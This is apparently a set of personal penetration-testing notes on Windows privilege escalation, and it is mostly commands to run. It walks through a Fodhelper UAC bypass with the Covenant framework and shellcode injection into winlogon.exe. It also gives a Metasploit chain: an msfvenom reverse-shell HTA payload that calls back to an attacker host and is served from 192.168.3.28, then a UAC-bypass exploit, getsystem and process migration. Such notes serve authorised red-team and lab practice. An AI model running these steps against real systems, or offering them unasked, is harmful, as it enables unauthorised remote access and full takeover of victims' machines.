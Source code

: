### Fodhelper UAC Bypass with Covenant
- **High level privileges**
- Open `Coveneant`
- Start a shell on the Windows host
	- [[Covenant Quick Shell on Windows Host]]
- `powershellimport`
	- `helper.ps1`
- Ensure you using DotNetVersion: `Net35`
	- Copy the encoded payload
- `powershell helper -custom "cmd.exe /c enter_payload_here"`
- Elevate to: **System level privileges**
	- In `Covenant` run:
		- `ps`
		- Find `winlogon.exe` and identify the PID
		- Go to `Launchers`
			- `ShellCode`
				- DotNetVersion: `Net40`
				- `Generate`
				- `Download`
		- `inject`
			- Enter the `winlogon.exe` PID
			- Add the recently generated shellcode *.bin* file
		- `Execute`


### UAC Bypass with Metasploit
- Refer to link below to generate a quick reverse shell
	- [[Metasploit Quick Shell Setup]]
```bash
- On kali host:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 -f hta-psh -o Benefits.hta`
	- Transfer `Benefits.hta` over to Windows host-machine
		- `python3 -m http.server 80`
		- On Windows host-machine browse to:
			- `http://192.168.3.28/Benefits.hta`
			- Execute the file on host system  **Windows defender needs to be turned off for this and Microsoft Word needs to be present on the host machine**
	- Start Metasploit:
		- `msfconsole`
			- `use /exploit/multi/handler`
			- `set payload windows/x64/meterpreter/reverse_tcp`
			- `set lhost eth0`
			- `set lport 443`
			- `exploit`
- On Windows Host execute the relevant shell created in `Downloads`
```
- `run post/multi/recon/local_exploit_suggester`
	- Copy: `exploit/windows/local/bypassuac_dotnet_profiler`
- Background session with `CTRL+z`
- `use exploit/windows/local/bypassuac_dotnet_profiler`
	- `set session 1`
- `exploit -j`
- `sessions -i 2`
- In shell you are administrator, but to elevate further *system level access*
	- `getsystem`
	- `ps`
		- Find a process that has *system level access*
		- `migrate PID`
